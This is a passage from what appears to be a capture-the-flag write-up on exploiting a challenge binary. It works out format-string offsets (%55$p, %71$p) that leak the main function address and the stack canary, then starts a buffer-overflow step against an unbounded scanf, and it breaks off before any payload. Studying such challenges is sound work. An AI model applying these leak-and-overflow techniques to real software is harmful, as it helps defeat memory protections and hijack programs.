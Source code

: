 e.g.

- %1$p: $rsi value
- %2$p: $rdx value
- %3$p: $rcx value
- %4$p: $r8 value
- %5$p: $r9 value
- %6$p: $sp value
- %7$p: $sp+0x8 value
- %8$p: $sp+0x10 value

The 392nd value and the 520th value in stack are the main function address and the canary value, respectively.
One block is 8 bytes so we can get the stack value by using the value divided the number of bytes from $sp by 8 and added 6 as n of %n$p.

```python
>>> 0x7fffffffdc58 - 0x7fffffffdad0  # main function address
392
>>> 392//8+6
55
>>> 0x7fffffffdcd8 - 0x7fffffffdad0  # canary value
520
>>> 520//8+6
71
```

Thus, the output of %55$p and %71$p are the main function address and the canary value, respectively.

### Step 2: BoF to return skipAd function

Decompiled buy_premium function with Ghidra:

```c
void buy_premium(void)

{
  long in_FS_OFFSET;
  int local_230;
  float local_22c;
  undefined local_228 [32];
  undefined local_208 [504];
  // (snip)
      puts("Insert your name:");
      __isoc99_scanf("%s",local_208);
      cleanBuffer();
      puts("Insert your card number:");
      __isoc99_scanf("%16s",local_228);
      cleanBuffer();
      puts("Processing payment...");
      sleep(0);
      puts("Payment failed, you\'re broke");
```
